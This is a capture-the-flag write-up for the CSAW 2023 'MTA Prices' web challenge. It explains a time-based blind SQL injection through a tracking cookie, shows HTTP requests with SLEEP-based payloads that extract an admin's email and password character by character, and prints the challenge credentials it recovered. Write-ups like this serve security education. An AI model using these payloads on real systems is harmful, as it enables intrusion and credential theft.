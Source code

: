 # CSAW 2023

# MTA Prices

> Time-based SQli

## How to identify

You can leverage the trackID in the cookie to manipulate the content of the **session,** which the server sends to us in the response header:

Also, if we modify the trackID to an unintended one, the value of the email field in the **session** will be "**Error**".

Importantly, this is a point where we can manipulate user input to get anomalies.

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-dcfcaf77c3e0c7483838aa34d2b5bfef.png)

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-5427e8f851f0891eb0fb679d9ddae823.png)

## Proof of Concept

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBk'+sleep(5)+'O4Fp2KuGsB;
Connection: keep-alive
```

The email showing no error means the SQL commands have been successfully executed.

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-26eab2848c1a5e25ca88e0f7fbf4a59d.png)

## Exploitation

Replace the [ARG1](https://github.com/superboy-zjc/CTF-Writeups/blob/main/CSAW 2023/1-20.list) and [ARG2](https://github.com/superboy-zjc/CTF-Writeups/blob/main/CSAW 2023/allprintable.list) with your dictionaries…

> ARG1: numbers from 0 to 20
> ARG2: all the printable characters: ASCII 32 - 126

**Get admin’s email:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(email,${ARG1},1) from users where privilege LIKE 'admin%' limit 0,1)=binary('${ARG2}'),SLEEP(10),'a'))+';
Connection: keep-alive
```

**Get admin’s password:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(password,${ARG1},1) from users where email='emily.brown@mta.com' limit 0,1)=binary('${ARG2}'),SLEEP(1),'a'))+';
Connection: keep-alive

```

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-0cf51a4f002f680bbc21430613de9582.png)

```php
mail - > emily.brown@mta.com
password -> p#2r@5ml8q7v!9x$1
```

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-06-02-59382736bafdc07265d1f28add506c0f.png)

# Reference

[https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection.md#extract-database-with-information_schema](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#extract-database-with-information_schema)

[https://superboy-zjc.github.io/2020/08/05/阶段四、Web渗透测试/7、SQL注入/#二、SQL注入的注入点](https://superboy-zjc.github.io/2020/08/05/%E9%98%B6%E6%AE%B5%E5%9B%9B%E3%80%81Web%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/7%E3%80%81SQL%E6%B3%A8%E5%85%A5/#%E4%BA%8C%E3%80%81SQL%E6%B3%A8%E5%85%A5%E7%9A%84%E6%B3%A8%E5%85%A5%E7%82%B9)